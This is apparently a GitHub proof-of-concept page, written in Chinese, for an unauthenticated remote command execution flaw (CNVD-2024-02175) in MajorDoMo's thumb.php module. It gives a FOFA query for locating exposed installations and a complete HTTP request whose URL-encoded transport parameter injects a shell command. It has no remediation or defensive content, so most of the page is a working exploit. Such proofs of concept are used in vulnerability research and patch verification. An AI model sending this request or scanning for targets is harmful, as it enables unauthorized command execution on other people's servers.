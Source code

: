 ## MajorDoMo-thumb.php未授权RCE漏洞复现(CNVD-2024-02175)

MajorDoMo /modules/thumb/thumb.php接口处存在远程命令执行漏洞，未经身份验证的攻击者可利用此漏洞执行任意指令，获取服务器权限。

## fofa
```
app="MajordomoSL"
```

## poc
```
GET /modules/thumb/thumb.php?url=cnRzcDovL2EK&debug=1&transport=%7C%7C+%28echo+%27%5BS%5D%27%3B+id%3B+echo+%27%5BE%5D%27%29%23%3B HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Linux; Android 11; motorola edge 20 fusion) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.61 Mobile Safari/537.36
Accept-Charset: utf-8
Accept-Encoding: gzip, deflate
Connection: close
```
![image](https://github.com/wy876/POC/assets/139549762/89f477a7-2e73-4a27-863b-c3ba1fd701e6)
